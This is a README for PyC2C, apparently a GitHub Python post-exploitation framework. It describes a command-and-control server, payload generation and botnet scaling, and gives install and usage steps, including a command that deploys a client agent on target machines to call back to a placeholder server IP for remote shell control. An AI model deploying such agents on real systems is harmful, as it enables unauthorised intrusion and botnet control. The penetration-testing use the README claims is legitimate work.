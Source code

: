 # PyC2C: Python Post-Exploitation Framework with C2C Architecture

PyC2C is a Python-based post-exploitation framework designed with a Command and Control (C2C) architecture. It enables remote execution of shell code on multiple clients, also known as bots, providing powerful capabilities for penetration testers and security professionals.

## Features

- **C2C Architecture**: Allows centralized control over multiple compromised hosts.
- **Remote Shell Execution**: Execute shell commands on remote client machines.
- **Flexible Payload Generation**: Generate custom payloads tailored to specific targets.
- **Cross-Platform Compatibility**: Compatible with various operating systems supporting Python.
- **Scalability**: Easily scale up to control large botnets efficiently.

## Installation

1. Clone the PyC2C repository:

    ```
    git clone https://github.com/nafdev01/post-exploitation.git
    ```

2. Navigate to the PyC2C directory:

    ```
    cd post-exploitation
    ```

3. Install dependencies:

    ```
    pip install -r requirements.txt
    ```

## Usage

1. Start the C2C server:

    ```
    python botServer.py
    ```

2. Configure the server settings, such as listening IP and port.

3. Deploy the client agent on target machines:

    ```
    python botClient.py --server <server_ip> --port <server_port>
    ```

4. Once the clients connect to the server, you can execute commands remotely.

## Example

1. Execute a shell command on selected connected client:

    ```bash
    whoami
    ```
2. Change the currently active bot client:
    
    ```
    select_bot
    ```
3. Clear the terminal:

    ```bash
    clear
    ```
4. Exit the program:

    ```bash
    exit
    ```

## Disclaimer

This tool is intended for educational and penetration testing purposes only. Unauthorized use of this tool may violate local, state, or federal law.

## Contribution

Contributions are welcome! Feel free to submit issues, feature requests, or pull requests to improve PyC2C.
